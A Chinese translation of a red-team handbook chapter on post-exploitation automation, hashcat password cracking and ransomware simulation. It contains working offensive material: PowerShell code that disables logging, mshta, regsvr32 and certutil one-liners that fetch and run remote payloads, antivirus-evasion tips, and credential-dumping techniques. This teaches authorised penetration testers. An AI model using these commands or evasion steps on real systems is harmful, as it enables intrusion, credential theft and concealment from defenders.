




# 第8章 特勤组——破解、漏洞利用和技巧

> 译者：[@Snowming](https://github.com/Snowming04)
> 
> 校对者：[@鶇](http://wp.blkstone.me)、@哈姆太郎、@匿名jack



本章重点介绍了一些我个人发现的对红队和渗透测试都有用的不同资源。这些资源可能不会在每个模拟入侵行动中都用到，但对于特定场景或在某一次的案例中可能非常有用。

## 自动化
随着基于[启发式](https://baike.baidu.com/item/%E5%90%AF%E5%8F%91%E5%BC%8F/7365819)（heuristic-based）的端点保护变得越来越完善，我们的攻击需要变得更加迅速。我们通常可以编写恶意软件来躲避杀毒软件和绕过初始检测，但是一旦我们开始在内存中调用 `Mimikatz` 或者进行横向移动到其他主机，我们就会开始触发报警。为了解决这个问题，我总是告诉红队，我们的初步试探可以故意让蓝队捕获。因为通常情况下，蓝队在发现我们使用的默认/基础恶意软件（或者仅仅进行了轻微的混淆）时就会将此视为胜利，但我们的真正目的是了解他们的环境。这是通过我们的初始 payload 在受害者的机器上自动运行多个侦察脚本来实现的。在下一节中，我们将介绍一些可以使我们的一些攻击自动化的快速自动运行脚本。

### 使用 RC 脚本自动化运行 Metasploit
对于 Metasploit，我们可以使用以下方法高效地运行我们的后渗透利用脚本：
* 搜索 Metasploit 中所有的后渗透利用模块：
* msfconsole
* show post

从显示的结果中，选择你想要包含的所有模块，以便在接收到一个 Meterpreter Shell 时自动执行。在这个案例中，我们将为我们的攻击添加一个 [privilege	migrate](http://bit.ly/2vn1wFB) 后渗透模块。要配置 Meterpreter Shell 以便让它在受攻击主机的初始连接上运行此 payload，我们需要指定一个 `AutoRunScript` 参数。你可以根据需要添加尽可能多的 `AutoRunScripts` 参数来转储（dump）有关系统和网络的信息，然后横向移动,甚至更多！

创建处理程序 (Handler) 和 AutoRunScript：
* 创建处理程序文件
    * gedit handler.rc
* 配置处理程序和自动运行脚本
    * use multi/handler
    * set payload windows/meterpreter/reverse_https 
    * set LHOST 10.100.100.9
    * set LPORT 443
    * **set AutoRunScript post/windows/manage/priv_migrate**
    * set ExitOnSession false
    * set EnableStageEncoding true 
    * exploit -j
* 启动处理程序
    * msfconsole -r handler.rc

### 自动化运行 Empire
Empire 具有与 Metasploit 资源文件类似的功能，可以自动完成许多重复性任务。首先，我们需要创建一个文件（在我们的示例中，我们将创建一个名为  /opt/empire_autoload.rc 的文件）然后在我们的 Empire 实例中加载它。

* 在一个单独的终端窗口中，创建一个处理程序文件：
```
gedit /opt/empire_autoload.rc
```
* 添加所有你想要执行的后渗透模块：
```
usemodule situational_awareness/network/powerview/get_user 
execute
back 
usermodule situational_awareness/network/powerview/get_computer 
execute
back
```
* 在 Empire 中，加载 autoload.rc 资源文件：
```
agents
autorun /opt/empire_autoload.rc powershell 
autorun show
```



如你所见，当代理连接时，它会自动运行 `get_user` 和 `get_computer` 的 PowerShell 脚本。这些脚本的所有运行结果都将存储在 agent.log 文件中。在这种情况下，我们的代理名称是 N6LM348G，因此我们的日志将存储在 /opt/Empire/downloads/N6LM348G/agent.log。

### 自动化运行 Cobalt Strike
Cobalt Strike 如此强大的一个主要原因是因为它有 [Aggressor 脚本](https://www.cobaltstrike.com/aggressor-script/index.html)。使用 Cobalt Strike 的 Aggressor 脚本，你不仅可以配置自动运行的脚本，还可以创建非常复杂的攻击。例如，我经常遇到进攻共享工作站的场景，例如实验室服务器或会议室盒子。我可能就会希望我们的代理机器最好能每隔半小时运行 Mimikatz 以获取明文凭证。使用 Aggressor 脚本，我们可以执行所有这些操作甚至更多操作。下面是一个示例脚本： [mimikatz-every-30m.cna](http://bit.ly/2IXgIel)。

Aggressor 其他脚本集合：
* https://github.com/bluscreenofjeff/AggressorScripts 
* https://github.com/harleyQu1nn/AggressorScripts

### 自动化的未来
最后，有一些很酷的项目正朝着自动化，智能入侵和 APT 攻击的方向发展。我坚信入侵行动的未来是朝着自动化的方向发展的，我们需要自动化地测试和验证我们的安全控制机制。我认为在发展这种自动化趋势方面具有巨大潜力的两个工具是：
- [Portia](https://github.com/SpiderLabs/portia) 
- [Caldera](https://github.com/mitre/caldera)

## 密码破解
我了解的最新的和最喜欢的密码列表之一是来自最近发现的41 GB 大小的密码脱库，它包含14亿的用户名和密码（ http://bit.ly/2HqbYk8 ）。不过，我不想直接把下载链接展示出来，因为它包含很多敏感的用户名（或电子邮件）和相关密码，但你可以搜索 `BreachCompilation.tar.bz2` 以查找有关它的更多信息。在下载这些非常敏感的信息之前，请先查看你所在国家的法律。我建议你不要下载原始数据，只需下载密码列表即可。我已经下载了这个41GB 的字典，然后删除了所有用户名和电子邮件，并整理出了只是密码的数据。位于：http://thehackerplaybook.com/get.php?type=THP-password 。

在我的个人机器上，我使用8块技嘉 GV-N108TTURBO-11GD AORUS GeForce GTX 1080 Ti Turbo 11G 显卡，大约价值12,000美元，你也可以构建自己的一个机器，包括机箱、RAM、电源、SSD 和 GPU。当然，机箱至少需要一个4U机架（例如：SYS-4028GR-TR2）并且供应充足的电。虽然绝对不便宜，但我们每秒大约能枚举472,000,000,000个哈希值，可以爆破 Windows NTLM(Windows) 哈希。这是八个 GPU 的 hashcat 基准测试： 

```
Hashmode: 1000 - NTLM

Speed.Dev.#1…..: 59436.3 MH/s (63.16ms) 
Speed.Dev.#2…..: 58038.3 MH/s (64.70ms) 
Speed.Dev.#3…..: 59104.4 MH/s (63.55ms) 
Speed.Dev.#4…..: 59123.0 MH/s (63.52ms) 
Speed.Dev.#5…..: 58899.7 MH/s (63.74ms) 
Speed.Dev.#6…..: 59125.8 MH/s (63.51ms) 
Speed.Dev.#7…..: 59256.3 MH/s (63.36ms) 
Speed.Dev.#8…..: 59064.5 MH/s (63.56ms) 
Speed.Dev.#*…..:  472.0 GH/s
```

对于那些买不起大型 GPU 设备的人来说，还有其他选择。你可以考虑在云服务器中进行密码破解的操作，虽然仍然不怎么便宜。最近，亚马逊已经集成了 [TESLA GPU](http://www.nvidia.com/object/tesla-servers.html)（不是特斯拉汽车），它们比1080Ti 更强大。关于如何使用这些 GPU 设置你自己的密码破解服务器，在 Medium 上有一篇很棒的文章：https://medium.com/@iraklis/running-hashcat-v4-0-0-in-amazons-aws-new-p3-16xlarge-instance-e8fab4541e9b 。

来自 Iraklis Mathiopoulos 的文章中的数据：
> 译者注：Iraklis Mathiopoulos 是上面这篇文章的作者。

```
Hashmode: 1000 - NTLM:

Speed.Dev.#1…..: 79294.4 MH/s (33.81ms) 
Speed.Dev.#2…..: 79376.5 MH/s (33.79ms) 
Speed.Dev.#3…..: 79135.5 MH/s (33.88ms) 
Speed.Dev.#4…..: 79051.6 MH/s (33.84ms) 
Speed.Dev.#5…..: 79030.6 MH/s (33.85ms) 
Speed.Dev.#6…..: 79395.3 MH/s (33.81ms) 
Speed.Dev.#7…..: 79079.5 MH/s (33.83ms) 
Speed.Dev.#8…..: 79350.7 MH/s (33.83ms) 
Speed.Dev.#*…..: 633.7 GH/s
```

对于同样的 NTLM 哈希值，使用 TESLA GPU 显卡破解的总速度比使用1080Ti GPU显卡大约快34％。但是运行 AWS 的总成本约为每小时25美元。因此，你需要根据自己的预算、需求和目标来选择。

**实验：**

最近，Have I Been Pwned 网站的创始人 Troy Hunt 发布了一个 SHA1 密码哈希列表，压缩之后的体积大约为5.3 GB。这是有史以来的数据泄露、脱库中一个非常大的列表了。这是一个测试你密码破解技巧的绝佳素材:

* https://downloads.pwnedpasswords.com/passwords/pwned-passwords-1.0.txt.7z

随着这些 GPU 的破解速度变得越来越快，10个字符以下的密码可以在相对合理的时间范围内进行智能化破解。其中一些可以通过使用高质量的密码掩码来破解，但是大多数情况下，主要取决于密码列表自身的复杂程度。破解大于12个字符的密码的最快方法之一就是使用来自于真实数据泄露事件的密码列表。回顾过去所有的数据泄露事件，我们可以很好地了解人类如何创建密码，混淆密码的常用技巧以及最常用的单词。使用复杂规则集配合这些密码字典，可以让我们以极快的速度破解密码（有时超过25个字符）。但请记住，你的密码列表取决于你构建和维护它的程度。作为红队队员，我们会定期跟踪我们破解的所有帐户，对其进行分析并将其添加到我们的密码字典中。我们还会不断监控新的数据泄露事件，访问 pastebin 和 pastie 网站等，以查找更新的密码。此处有一个很好的监控列表：https://inteltechniques.com/OSINT/pastebins.html 。

我最喜欢的密码列表：
* berzerk0的 Real-Password-WPA 密码列表：
* 18.6 GB 未压缩
    * http://bit.ly/2EMs6am
* berzerk0 的字典风格的列表：
    * 1 GB 未压缩
    * http://bit.ly/2GXRNus
* Xato 的千万数量的密码
    * magnet:?xt=urn:btih:32E50D9656E101F54120ADA3CE73F7A65EC9D5CB
* Hashes.org
    * https://hashes.org/left.php
    * 几千兆字节，而且每天都在增长
* Crackstation
    * 15 GB 未压缩
    * https://crackstation.net/files/crackstation.txt.gz
* Weakpass（弱密码）
    * 大量的密码列表
    * https://weakpass.com/wordlist
* First20Hours 
    * 该项目包含按频率顺序排列的10,000个最常见的英语单词列表，由 Google 的万亿字词数据库的 n-gram 频率分析确定。
    * https://github.com/cyberspacekittens/google-10000-english
* SkullSecurity.org
    * 优秀的旧密码列表，如 rockyou，myspace，phpbb
    * https://wiki.skullsecurity.org/Passwords
* Daniel Miessler 的密码编译
    * https://github.com/cyberspacekittens/SecLists
* Adeptus-mechanicus 哈希脱库
    * http://www.adeptus-mechanicus.com/codex/hashpass/hashpass.php

通过优秀的密码列表组合，我们可以基于列表添加规则来找到更多密码。就 Hashcat 而言，规则会确定是否需要在词表中进行任何修改和扩展。描述规则的最佳方式是使用这一个易于理解的示例。我们可以使用 [KoreLogicRulesAppendYears](http://contest-2010.korelogic.com/rules.html) 规则集，如下所示：
* cAz”19[0-9][0-9]”
* Az”19[0-9][0-9]”
* cAz”20[01][0-9]”
* Az”20[01][0-9]”

它将在每个密码中添加1949年到2019年的年份字符串。比如，如果密码列表中包含单词 “hacker”，它就会使用 “hacker1949” 来尝试破解哈希值，一直试到 “hacker2019”。请记住，你拥有的密码规则越复杂，通过单词列表中的所有单词破解目标所需的时间就越长。

幸运的是，我们不需要创建自己的规则，因为网上已经有很多很好的规则。当然，还有默认的 Hashcat 规则，它来自许多较旧的数据泄露，以及常见的密码破解技术。这是一个很好的起点。Kore 规则来自 Korelogic 的密码竞赛，是其标准之一。另外的两个规则需要的时间更久，但也有非常详细的规则集，分别是 NSAKEY 和 Hob0Rules。在过去，我会采取所有的规则，将它们编入单个文件，并对文件去重。但是，现在，`NotSoSecure` 规则实际上已经为你做好了这些工作。

规则：
* Hashcat Rules
    * https://github.com/hashcat/hashcat/tree/master/rules
* Kore Rules
    * http://contest-2010.korelogic.com/rules-hashcat.html
* NSAKEY Rules（我的最爱之一）           
    * https://github.com/cyberspacekittens/nsa-rules
* Praetorian-inc Hob0Rules             
    * https://github.com/cyberspacekittens/Hob0Rules
* NotSoSecure —— 此规则包含上面全部规则  
    * https://github.com/cyberspacekittens/password_cracking_rules

注：NSAKEY Rules、Praetorian-inc Hob0Rules 和 NotSoSecure 是原仓库的 Fork 版本。

## 彻底破解全部 —— 尽可能多地快速破解
你现在已有从 Cyber Space Kittens 入侵行动获得的一个很大的密码列表。那么在有限的时间内，怎么能获得最好的收益呢？以下演练将指导你完成初始步骤来尽可能多地破解密码。虽然，我们通常只需要找到几个域管理员/LDAP 管理员/公司管理员帐户，但我的强迫症倾向让我试图破解所有密码。

在开始之前，你确实需要了解你的那些哈希值的密码格式。Hashcat 有一个很好的[列表](http://hashcat.net/wiki/doku.php?id=example_hashes)，展示不同类型的哈希值的示例。一旦你知道了是什么类型的哈希算法，最好先进行一些初始测试，以确定该密码哈希算法的速度是快还是慢。这将对你的密码破解方法有巨大的影响。例如，在查看 Windows 系统下使用哈希算法时，我们看到 NTLM(Windows) 执行速度大约为75,000 MH/s。在 Linux下 运行 SHA-256算法的执行速度约为5,000 MH/s。

这意味着对于 SHA-256哈希，你的 GPU 可以每秒破解5,000,000,000次。这可能看起来很多，但是当你有大量的单词列表和很大的规则集时，这个速度可能不够理想。这是因为与每秒运算75,000,000,000个哈希值的 NTLM 相比，SHA-256算法的计算速度非常慢且成本高。在我们的例子中，我们将全力以赴，我们将使用8个1080TI GPU 并使用 NTLM 的快速哈希转储（dump）功能。

### 破解 CyberSpaceKittens  NTLM 哈希：
获得域管理员访问权限后，你使用 DCSync 攻击从域控制器转储所有哈希值。你现在的目标是尝试尽可能多地破解哈希。因为你知道，你将能够在未来的入侵活动中使用这些帐户，并向受害者公司展示他们使用的不安全的密码的做法。

首先，我们将所有 NTLM Windows 哈希保存在一个名为 cat.txt 的文件中。为了使输出结果更易于阅读，我们将省略初始的 hashcat 执行命令。每个命令执行都将以 `hashcat -w 3 -m 1000 -o hashes.cracked ./hashes/cat.txt` 开头。

这句命令的意思为：
* hashcat: 运行 hashcat
* -w 3: 使用调整的配置文件
* -m 1000: 哈希格式是 NTLM
* -o hashes.cracked: 将结果输出到一个文件中
* ./hashes/cat.txt: 我们的哈希存储的地址

因此，每当你看到 [hashcat] 字符串时，请使用此命令替换它：`hashcat -w 3 -m 1000 -o hashes.cracked ./hashes/cat.txt `。现在，让我们在 8 GPU 1080TI 设备上快速高效地破解 NTLM 哈希。

* 使用 `brute-force`（-a 3）的攻击模式破解所有长度少于等于7个字符的密码。字符可以是任何字母、数字或者特殊字符（?a），启用增量破解模式从一个字符到七个字符进行尝试（--increment）。
    * [hashcat] -a 3 ?a?a?a?a?a?a?a --increment    
    * 对于7个字符（字母/数字/特殊字符）的密码，破解总时间约为5分钟。我们可以设置为8个字符，但我们看到设置8字符后，运行了9个小时。
    * 你还可以将特殊字符限制为少数几个（！@ ＃＄ ％ ^），这能显著减少时间和复杂性。    
* 接下来，将所有常见密码列表转储与我们的哈希值进行比较。第一个文件（40GB_Unique_File.txt）是一个3.2GB 的密码文件，运行大约需要9秒：
    * [hashcat] ./lists/40GB_Unique_File.txt
* 我们可以看到，速度快到即使是这么大的文件，运行也只需要几秒钟。为了提高效率，我们实际上可以使用 * 运算符并与我们的 ./lists/ 文件夹中的每个密码列表进行比较。
    * [hashcat] ./lists/*
* 接下来，基于哈希算法的速度，我们可以对单个密码列表文件尝试不同的规则集。我们将从 RockYou 规则集开始，破解这些 NTLM 哈希值大约需要2分9秒：
    * [hashcat] ./lists/40GB_Unique_File.txt -r ./rules/rockyou-30000.rule
    * 注意：使用3 GB 文件设置的 NSAKEY 规则大约需要7分钟，使用 NotSoSecure 规则集（组合了其他所有规则集的规则集）大约需要20分钟。
* 当我用回其他密码列表和规则集组合时。跟所有大型规则集和大型密码泄露列表的第一次破解比较，我们通常可以至少提高30％以上的效率。 
* 接下来，我们可以开始在密码列表的右侧添加字符，以提高破解更长密码的成功率。下面看到的 `-a 6` 命令会将每个字母/数字/特殊字符添加到密码右侧，从一个字符开始一直到最多四个字符：
    * [hashcat] -i -a 6 ./lists/found.2015.txt ?a?a?a?a
    * 注意：这需要大约30分钟才能完成四个字符
* 我们也可以在密码列表的左侧添加字符。以下命令将每个字母/数字/特殊字符添加到密码的左侧，从一个字符开始一直到最多四个字符：
    * [hashcat] -i -a 7 ?a?a?a?a ./lists/40GB_Unique_File.txt
    * 注意：这需要大约30分钟才能完成四个字符
* Hashcat Utils：https://github.com/hashcat/hashcat-utils/releases 。Hashcat 有很多工具可以帮助构建更好的密码列表。一个例子是组合器，它可以采用两个或三个不同的密码列表并进行组合。使用小列表相对较快。使用我们的 shortKrak 列表并将其与自身相结合会导致非常快速的破解：
    * ./hashcat-utils-1.8/bin/combinator.bin lists/shortKrak.txt lists/shortKrak.txt > lists/comboshortKrak.txt
* 使用一些列表比如“谷歌排名 top1000单词”会生成一个约1.4 GB 的文件，因此你必须注意你选择的文件的大小。
    * ./hashcat-utils-1.8/bin/combinator.bin lists/google_top_1000.txt lists/google_top_1000.txt > lists/google_top_1000_combo.txt
    * 注意：使用一个4MB 文件并运行 combinator 将导致生成体积一个大于25GB 的文件。所以，要当心这些文件的体积大小。
* 很多时候，人们使用最多的密码不是常见的字典单词，而是基于他们的公司、产品或服务的单词。我们可以使用客户网站创建自定义密码列表。可以提供帮助的两个工具是：
    * [Brutescrape](https://github.com/cheetz/brutescrape) 
    * [Burp Wordlist Extractor](https://portswigger.net/bappstore/21df56baa03d499c8439018fe075d3d7) 
* 接下来，使用 [PACK](https://github.com/iphelix/pack) (Password Analysis and Cracking Kit) 工具对所有破解的密码进行分析并创建掩码：
    * python ./PACK-0.0.4/statsgen.py hashes.password 
    * python ./PACK-0.0.4/statsgen.py hashes.password --minlength=10 -o hashes.masks
    * python ./PACK-0.0.4/maskgen.py hashes.masks --optindex -q -o custom-optindex.hcmask
> 译者注：本书作者给出的关于 PACK 的链接为：http://thesprawl.org/projects/pack/ ，但是你只要点了试试就会发现现在这个连接被自动跳转到 PACK 作者的博客了。译文中的 PACK 工具的地址是译者自己在 Github 找到的，因为链接变了，所以上面的 python 语句大家根据情况做出调整。可以参考该工具的 README，非常详细。
* 使用新创建的掩码进行密码破解：
    * [hashcat] -a 3 ./custom-optindex.hcmask
* 使用 [Pipal](https://github.com/digininja/pipal) 分析你的密码列表可以更好地理解密码的基本词汇：    
    * cd /opt/pipal
    * ./pipal.rb hashes.password
    * 看看这个列表，你可能会发现这家公司使用`resetme12345`作为默认密码，可能位于密歇根州（列表里有底特律、老虎、足球这些词汇）。
    
那么下一步我们做什么？已经有很多对于不同的密码生成工具、密码分析和其他技术的很好的研究，目的是找到更快的破解密码的方法。若你有兴趣，这里给出一些资料：
* [PassGAN：使用深度学习方法进行密码破解](https://github.com/brannondorsey/PassGAN)
* [快速、精益、准确:使用神经网络建模的密码可猜测性](https://www.usenix.org/conference/usenixsecurity16/technical-sessions/presentation/melicher)

## 具有创新性的的入侵行动
作为公司的内部红队可以有机会参加具有创新性的的入侵行动。我最喜欢的行动之一是模拟勒索软件。在过去，我们被允许在 WannaCry 大面积爆发的时期进行模拟勒索软件行动。随着加密软件和勒索软件越来越受欢迎，我们确实需要有能力测试我们的业务恢复和遇难恢复程序。我们在现实生活中见证了这一点，WannaCry 通过 SMB 进行横向移动，利用 EternalBlue ，加密文件等攻击，甚至删除了主机系统上的所有备份。作为一个 IT 组织，我们需要问自己的问题是，如果我们的某个用户点击了该恶意软件，会产生什么影响？我们可以恢复用户文件、共享文件、数据库等东西吗？我们一直听到的答案是，“我觉得可以......”，但如果没有红队提前验证的过程，我们最终会等到我们的房子被烧成灰后才知道是不是真的可以。

这就是为什么我喜欢公司内部进行红队评估的原因。我们可以在受控环境中真正证明并验证安全性和 IT 是否正常运行。对于这本书，我没有列举任何我们的勒索软件的例子，因为这样做很危险。我将让你负责构建工具并以批准的方法测试你的客户。

模拟勒索软件行动提示：
* 有些公司实际上不会让入侵者删除或加密文件。对于这些公司，你可以进行模拟勒索软件攻击。一旦恶意软件被执行，它所做的就是扫描主机和网络中的重要文件，将每个文件读入内存，执行随机字节交换，将这些字节发送到 C2 服务器，并包含元数据。这将展示出你能够操作的文件数量，在检测到流量之前可以从网络中渗透出的数据量以及可以恢复的文件数量。
* 查看其他勒索软件样本以查看他们正在加密的文件类型。这可以创造一个更接近现实的行动。例如，查看 WannaCry 中的文件类型（ https://gist.github.com/rain-1/989428fa5504f378b993ee6efbc0b168 ）。
* 如果你要 “加密” 恶意软件，请使用简单的方法。它可以是带有密钥的标准 AES，一个公共或私有的 x509 证书，或某种按位异或。制作它越复杂，无法恢复文件的可能性就越大。
* 测试、测试和测试。你可以预见的最糟糕的事情是让目标公司无法恢复关键文件，并且你的解密过程还不起作用。
* 许多下一代杀毒软件基于链中的某些动作会自动阻止勒索软件。例如，勒索软件可能执行的正常检测是：扫描系统中所有类型为 X 的文件，加密 X 文件，删除磁盘中的副本以及禁用备份。想要绕过检测过程的话，要么减慢勒索软件的活动流程，要么通过不同的流程达到相同的目的。

## 禁用 PowerShell 记录
作为红队队员，我们一直在寻找独特的方法来尝试和禁用任何类型的日志记录。虽然现在也有办法执行这些攻击，但我们仍在不断寻找新的更简单的技术。

以下是一个 leechristensen 写的[示例](https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs)，可用于禁用 PowerShell 日志记录：
- $EtwProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static');
- $EventProvider = New-Object System.Diagnostics.Eventing.EventProvider -ArgumentList @([Guid]::NewGuid());
- $EtwProvider.SetValue($null, $EventProvider);

## 从命令行连接网络下载 Windows 文件
如果你通过应用程序漏洞获得了命令执行，又或者是通过 Office 或 PDF 文件获取了 shell，那么接下来的步骤可能是下载并执行你的辅助恶意软件。

对于这些情况，我们可以利用 Windows 的一些特性来完成任务。大多数这些例子来自 arno0x0x 和 @subtee 的卓越的研究成果（ https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code ）。

* mshta vbscript:Close(Execute(“GetObject(““script: http://webserver/payload.sct ””)”)) 
* mshta http://webserver/payload.hta
* rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
* regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
* certutil -urlcache -split -f http://webserver/payload payload
* certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
* certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe

这些只是其中几个例子，还有更多通过命令行来执行辅助代码的方法。你还可以继续研究，看看是否还有其他技术可以用来从传统的日志记录中隐匿行踪。

## 从本地管理员权限到系统权限
从本地管理员帐户权限提升到 System 权限可以通过多种方式完成。当然，最常见的方法是使用 Metasploit 的 `getsystem`，但这并不总是可行的。[decoder-it](https://github.com/decoder-it/psgetsystem) 创建了一个非常棒的 PowerShell 脚本，通过创建一个新进程并将该新进程的父进程 PID 设置为 System 所拥有，从而让本地管理员权限的 PowerShell 提示符转到 System 权限。可以在[此处](https://github.com/decoder-it/psgetsystem  
)找到此 PowerShell 脚本。

执行以下操作：
* PS>	.	.\psgetsys.ps1 
* PS>[MyProcess]::CreateProcessFromParent(<process_run_by_system>, <command_to_execute>)



## 在不触及 LSASS 的情况下检索 NTLM 哈希值
Elad Shamir 对怎样在不对 lsass.exe 进程进行操作的情况下抓取 NTLM 哈希进行了广泛的研究。在这种攻击之前，通过 Mimikatz 操作 LSASS 抓取哈希值的操作受到 Windows 10企业版和 Windows Server 2016中的凭证保护的限制。Elad 开发了一种称为 `Internal Monologue Attack` 的攻击，它执行以下操作：
* 如上所述，通过将 `LMCompatibilityLevel`、`NTLMMinClientSec` 和 `RestrictSendingNTLMTraffic` 更改为适当的值来禁用 NetNTLMv1 的预防性控制。
* 从当前正在运行的进程中检索所有非网络登录令牌并模拟关联的用户。
* 对于每个模拟用户，获得正在运行的用户 token，模拟用户同 NTLM SSP 进行交互，控制 Challenge 为固定值，导出返回的 Net-NTLMv1 响应。
* 恢复 `LMCompatibilityLevel`、`NTLMMinClientSec` 和 `RestrictSendingNTLMTraffic` 的原始值。
* [https://github.com/eladshamir/Internal-Monologue]



> `译者注` 参考资料：[Windows 下的密码 hash——Net-NTLMv1 介绍](http://www.mottoin.com/tech/110082.html)

## 使用防御工具构建训练和监控的实验环境
测试我们的恶意软件的一个很大挑战是我们需要建立一个快速测试的环境。Chris Long 构建的一个名为 [Detection Lab](https://github.com/clong/DetectionLab) 的强大工具是 Packer 和 Vagrant 脚本的合集，可让你快速将 Windows Active Directory 部署上线。该工具包含一系列端点安全和日志记录的最佳实践工具。`Detection Lab` 由四个主机组成（https://medium.com/@clong/introducing-detection-lab-61db34bed6ae ）：
* DC：一个 Windows 2016域控制器
* WEF：管理 Windows 事件集合（Windows Event Collection）的 Windows 2016服务器
* Win10：模拟非服务器端点的 Windows 10主机
* Logger：运行 Splunk 和一个 Fleet 服务器的 Ubuntu 16.04主机

## 本章总结
对于红队来说，窍门和技巧是我们入侵艺术的一部分。我们必须不断研究攻击用户、攻陷系统和逃避检测的更好方法。这可没有捷径，需要数小时到数年的练习、汗水和眼泪。
